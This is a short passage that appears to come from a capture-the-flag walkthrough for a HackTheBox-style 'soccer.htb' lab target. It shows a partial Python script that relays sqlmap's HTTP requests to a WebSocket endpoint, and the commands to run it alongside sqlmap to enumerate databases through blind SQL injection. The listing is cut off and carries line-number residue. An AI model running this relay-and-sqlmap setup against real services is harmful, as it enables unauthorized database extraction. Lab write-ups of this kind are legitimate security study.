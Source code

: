 
FOLLOW: https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
* pip install websocket
* pip3 install websocket-client


``` python

from http.server import SimpleHTTPRequestHandler
   2   │ from socketserver import TCPServer
   3   │ from urllib.parse import unquote, urlparse
   4   │ from websocket import create_connection
   5   │ 
   6   │ #ws_server = "ws://localhost:8156/ws"**CHANGE**
   7   │ ws_server = "ws://soc-player.soccer.htb:9091"
   8   │ 
   9   │ def send_ws(payload):
  10   │     ws = create_connection(ws_server)
  11   │     # If the server returns a response on connect, use below line   
  12   │     #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
  13   │       
  14   │     # For our case, format the payload in JSON
  15   │     message = unquote(payload).replace('"','\'') # replacing " with ' to avoi
       │ d breaking JSON structure
         # data = '{"employeeID":"%s"}' % message **CHANGE**
  16   │   data = '{"id":"%s"}' % message
  17   │ 
  18   │     ws.send(data)
  19   │     resp = ws.recv()
  20   │     ws.close()
  21   │ 
  22   │     if resp:
  23   │         return resp
  24   │     else:
  25   │         return ''

```
* In one terminal we fire the exploit
* In another terminal we fire the sqlmap as shown below

_terminal1_
```
❯ python3 sqliserver.py
```
_terminal2_
```
❯ sqlmap -u "http://localhost:8081/?id=1" -p "id" --dbs
```
